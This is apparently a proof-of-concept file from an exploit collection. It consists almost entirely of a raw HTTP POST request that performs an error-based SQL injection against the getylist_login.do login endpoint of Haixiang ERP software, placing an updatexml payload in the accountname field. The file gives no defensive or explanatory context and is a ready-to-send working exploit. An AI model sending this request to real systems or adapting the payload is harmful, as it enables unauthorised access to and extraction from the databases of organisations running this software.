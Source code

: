 # haixiangERP_getylist_login_sqli

from: https://mp.weixin.qq.com/s/5GCq5nuZVd7W6srj1ns9xQ
```
POST /getylist_login.do HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 77
Accept-Encoding: gzip
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

accountname=test' and (updatexml(1,concat(0x7e,(select md5(123)),0x7e),1));--
```
